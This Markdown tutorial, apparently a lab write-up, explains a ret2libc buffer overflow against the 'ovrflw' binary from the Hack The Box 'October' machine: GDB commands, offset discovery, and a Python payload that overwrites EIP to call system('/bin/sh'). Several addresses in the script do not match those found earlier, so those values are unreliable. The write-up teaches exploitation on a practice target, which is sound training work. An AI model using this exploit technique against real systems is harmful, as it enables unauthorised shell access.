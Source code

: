 # Buffer Overflows

## Return Oriented Programming (ROP) Buffer Overflow
The following commands can be used in a Return Oriented Programming (ROP) buffer overflow attack to bypass NX/DEP protection.  The following example makes use of the `ovrflw` ELF Linux binary found on the October Hack The Box machine.  All tools necessary are built into Kali Linux.

The ovrflw binary is 32 bit and has NX enabled and the system has Address Space Layout Randomisation enabled.


### Finding the point that overwrites EIP CPU Register

The following command can be used to generate a 500 character non repeating pattern to overlow the program:

```/usr/bin/msf-pattern_create -l 500```

The resulting output can be fed as an input to the binary:

```./ovrflw Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...```

You can increase the length of the pattern generated by the `/usr/bin/msf-pattern_create` command and send it to the program, until the program generates a `segmentation fault` error.

Upon the generation of a `segmentation fault`being thrown by the overflw program, it can then be ran within the debugger GDB to find what section of the pattern overwrote the EIP CPU register:

```gdb ./ovrflw```

Now a break point for the `main()` function can be added, the the program will pause once run within GDB.  The following code will add the break point:

```(gdb) b main```

The program can now be run by pressing the "r" key followed by the none repeating string of characters (in this case 500):

```r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4A...```

To continue the exection of the program the "c" key can be pressed.  This will result in a "
Program received signal SIGSEGV, Segmentation fault." error.

To view the curent values of the registers within GDB use the command:
`info registers`

Take the value held in the EIP register.  In this case it is `0x64413764`.  This value can be passed into msf-pattern_offset to find out the offset necessary to crash the program:

```msf-pattern_offset -q 0x64413764```

This showed the offset at the point EIP was overwritten was 112.  This means that 112 characters can be passed to the program to generate a segmentation fault.  

### Exploiting the buffer overflow using python and bash

Now three values are necessary to exploit the buffer overflow.  The addresses of system, exit and "/bin/sh" - in that order.

GDB can be used to find the address of system by running the following commands
``` gdb ./ovrflw 
b main
r
p system 
```

The `p system` command will give the address of where `system` is located, which in this case is `0xb765c310`.

Now to get the offset of "/bin/sh". GDB can be used to search for this value using the find command:

`find 0xb7646310, +9999999, "/bin/sh"`

The command will start at the system address and look for the pattern "/bin/sh" and then return the address offset once found.  The +999.. tells the command how far to look ahead from the system address. This can be incremented until the address is found.

The address of "/bin/sh" was found to be `0xb777ebac`.

The exit address can be found using the following command:

``` gdb ./ovrflw 
b main
r
p exit 
```
This gives the exit address 0xb764f260

The exploit will be 112\*characters + system address + exit address + "/bin/sh" address.  The following python exploit code contains the aforementioned structure.  Note that the struct library is used to put the data in little endian format, denoted by the "<I".  For instance, this would convert the exit address 0xb764f260 to 0x60f264b7.


#### Python Exploit Code
```#!/usr/bin/python

import struct

system_mem = struct.pack("<I", 0xb7646310)
binsh_mem = struct.pack("<I", 0xb7768bac)
exit_mem = struct.pack("<I", 0xb7639260)

payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab"
payload += system_mem
payload += exit_mem
payload += binsh_mem

print(payload)```

